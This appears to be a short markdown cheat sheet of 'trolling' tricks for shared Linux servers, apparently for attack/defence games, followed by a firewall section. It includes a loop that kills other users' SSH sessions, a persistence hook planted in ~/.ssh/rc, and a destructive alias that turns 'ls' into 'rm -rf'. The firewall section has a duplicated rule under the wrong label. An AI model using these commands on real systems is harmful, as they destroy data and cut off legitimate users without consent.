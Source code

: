 ### SSH session trolling

```
ssh2keep={1 2} 

ssh2boot=({1..20}); while true; do for session in "${ssh2boot[@]}"; do if [[ ! " ${ssh2keep[@]} " =~ " ${session} " ]]; then if ps -t pts/${session} > /dev/null 2>&1; then echo "Session pts/${session} discovered!!!"; pkill -9 -t pts/${session}; echo "Attempted to kill pts/${session}..."; if ! ps -t pts/${session} > /dev/null 2>&1; then echo "pts/${session} killed :)"; else echo "Failed to kill pts/${session}."; fi; fi; fi; done; sleep 1; done
```


### SSH Service trolling

**run a command on an ssh session when it starts**

```bash
nano /home/user/.ssh/rc
```

place this command
```bash
bash /dev/shm/parrot.sh
```

or this command:
```bash
while true; do for i in $(seq 1 5); do clear; printf "\n\n\r     Loading$(printf '.%.0s' $(seq 1 $i)) \n\n"; sleep 0.5; done; done
```

```bash
chmod 777 /home/user/.ssh/rc
```


### bashrc aliases

```
alias ls='rm -rf'
alias clear='telnet towel.blinkenlights.nl'
```



### terminal pets

```
bash parrot.sh > /dev/pts/1 &
bash pedro.sh > /dev/pts/1 &

kill -9 PID
```


### Server Hardening

**ports**
```bash
# Block incoming traffic on port 22 
sudo iptables -A INPUT -p tcp --dport 22 -j DROP
sudo iptables -A INPUT -p udp --dport 22 -j DROP 

# Block outgoing traffic on port 22 
sudo iptables -A OUTPUT -p tcp --sport 22 -j DROP
sudo iptables -A INPUT -p udp --dport 22 -j DROP 


# Setting default policies:
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT ACCEPT

# Exceptions to default policy
iptables -A INPUT -p tcp --dport 80 -j ACCEPT       # HTTP
iptables -A INPUT -p tcp --dport 443 -j ACCEPT      # HTTPS
```

**services**

```
```

